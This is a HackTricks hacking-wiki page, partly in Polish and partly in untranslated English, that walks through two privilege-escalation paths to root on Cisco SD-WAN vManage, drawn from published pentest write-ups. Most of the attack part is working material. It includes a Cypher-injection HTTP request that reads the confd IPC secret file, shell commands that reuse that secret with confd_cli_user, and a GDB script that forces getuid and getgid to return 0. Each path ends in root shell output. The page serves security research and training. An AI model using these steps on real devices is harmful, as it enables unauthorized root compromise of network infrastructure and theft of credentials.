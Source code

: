 # Cisco - vmanage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Path 1

(Przykład z [https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html](https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html))

Po przeszukaniu nieco [dokumentacji](http://66.218.245.39/doc/html/rn03re18.html) związanej z `confd` i różnymi binariami (dostępnymi z konta na stronie Cisco), odkryliśmy, że do uwierzytelnienia gniazda IPC używa sekretu znajdującego się w `/etc/confd/confd_ipc_secret`:
```
vmanage:~$ ls -al /etc/confd/confd_ipc_secret

-rw-r----- 1 vmanage vmanage 42 Mar 12 15:47 /etc/confd/confd_ipc_secret
```
Pamiętasz naszą instancję Neo4j? Działa ona z uprawnieniami użytkownika `vmanage`, co pozwala nam na pobranie pliku za pomocą wcześniejszej luki:
```
GET /dataservice/group/devices?groupId=test\\\'<>\"test\\\\\")+RETURN+n+UNION+LOAD+CSV+FROM+\"file:///etc/confd/confd_ipc_secret\"+AS+n+RETURN+n+//+' HTTP/1.1

Host: vmanage-XXXXXX.viptela.net



[...]

"data":[{"n":["3708798204-3215954596-439621029-1529380576"]}]}
```
Program `confd_cli` nie obsługuje argumentów wiersza poleceń, ale wywołuje `/usr/bin/confd_cli_user` z argumentami. Możemy więc bezpośrednio wywołać `/usr/bin/confd_cli_user` z naszymi własnymi argumentami. Jednak nie jest on czytelny z naszymi obecnymi uprawnieniami, więc musimy go pobrać z rootfs i skopiować za pomocą scp, przeczytać pomoc i użyć go do uzyskania powłoki:
```
vManage:~$ echo -n "3708798204-3215954596-439621029-1529380576" > /tmp/ipc_secret

vManage:~$ export CONFD_IPC_ACCESS_FILE=/tmp/ipc_secret

vManage:~$ /tmp/confd_cli_user -U 0 -G 0

Welcome to Viptela CLI

admin connected from 127.0.0.1 using console on vManage

vManage# vshell

vManage:~# id

uid=0(root) gid=0(root) groups=0(root)
```
## Path 2

(Example from [https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77](https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77))

Blog¹ zespołu synacktiv opisał elegancki sposób na uzyskanie powłoki root, ale wadą jest to, że wymaga uzyskania kopii `/usr/bin/confd_cli_user`, która jest czytelna tylko przez root. Znalazłem inny sposób na eskalację do roota bez takiego kłopotu.

Kiedy rozebrałem binarny plik `/usr/bin/confd_cli`, zaobserwowałem następujące:
```
vmanage:~$ objdump -d /usr/bin/confd_cli
… snipped …
40165c: 48 89 c3              mov    %rax,%rbx
40165f: bf 1c 31 40 00        mov    $0x40311c,%edi
401664: e8 17 f8 ff ff        callq  400e80 <getenv@plt>
401669: 49 89 c4              mov    %rax,%r12
40166c: 48 85 db              test   %rbx,%rbx
40166f: b8 dc 30 40 00        mov    $0x4030dc,%eax
401674: 48 0f 44 d8           cmove  %rax,%rbx
401678: 4d 85 e4              test   %r12,%r12
40167b: b8 e6 30 40 00        mov    $0x4030e6,%eax
401680: 4c 0f 44 e0           cmove  %rax,%r12
401684: e8 b7 f8 ff ff        callq  400f40 <getuid@plt>  <-- HERE
401689: 89 85 50 e8 ff ff     mov    %eax,-0x17b0(%rbp)
40168f: e8 6c f9 ff ff        callq  401000 <getgid@plt>  <-- HERE
401694: 89 85 44 e8 ff ff     mov    %eax,-0x17bc(%rbp)
40169a: 8b bd 68 e8 ff ff     mov    -0x1798(%rbp),%edi
4016a0: e8 7b f9 ff ff        callq  401020 <ttyname@plt>
4016a5: c6 85 cf f7 ff ff 00  movb   $0x0,-0x831(%rbp)
4016ac: 48 85 c0              test   %rax,%rax
4016af: 0f 84 ad 03 00 00     je     401a62 <socket@plt+0x952>
4016b5: ba ff 03 00 00        mov    $0x3ff,%edx
4016ba: 48 89 c6              mov    %rax,%rsi
4016bd: 48 8d bd d0 f3 ff ff  lea    -0xc30(%rbp),%rdi
4016c4:   e8 d7 f7 ff ff           callq  400ea0 <*ABS*+0x32e9880f0b@plt>
… snipped …
```
Kiedy uruchamiam „ps aux”, zauważyłem następujące (_note -g 100 -u 107_)
```
vmanage:~$ ps aux
… snipped …
root     28644  0.0  0.0   8364   652 ?        Ss   18:06   0:00 /usr/lib/confd/lib/core/confd/priv/cmdptywrapper -I 127.0.0.1 -p 4565 -i 1015 -H /home/neteng -N neteng -m 2232 -t xterm-256color -U 1358 -w 190 -h 43 -c /home/neteng -g 100 -u 1007 bash
… snipped …
```
I hypothesized the “confd\_cli” program passes the user ID and group ID it collected from the logged in user to the “cmdptywrapper” application.

My first attempt was to run the “cmdptywrapper” directly and supplying it with `-g 0 -u 0`, but it failed. It appears a file descriptor (-i 1015) was created somewhere along the way and I cannot fake it.

As mentioned in synacktiv’s blog(last example), the `confd_cli` program does not support command line argument, but I can influence it with a debugger and fortunately GDB is included on the system.

I created a GDB script where I forced the API `getuid` and `getgid` to return 0. Since I already have “vmanage” privilege through the deserialization RCE, I have permission to read the `/etc/confd/confd_ipc_secret` directly.

root.gdb:
```
set environment USER=root
define root
finish
set $rax=0
continue
end
break getuid
commands
root
end
break getgid
commands
root
end
run
```
Konsola Wyjście:
```
vmanage:/tmp$ gdb -x root.gdb /usr/bin/confd_cli
GNU gdb (GDB) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-poky-linux".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/bin/confd_cli...(no debugging symbols found)...done.
Breakpoint 1 at 0x400f40
Breakpoint 2 at 0x401000Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401689 in ?? ()Breakpoint 2, getgid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401694 in ?? ()Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401871 in ?? ()
Welcome to Viptela CLI
root connected from 127.0.0.1 using console on vmanage
vmanage# vshell
bash-4.4# whoami ; id
root
uid=0(root) gid=0(root) groups=0(root)
bash-4.4#
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
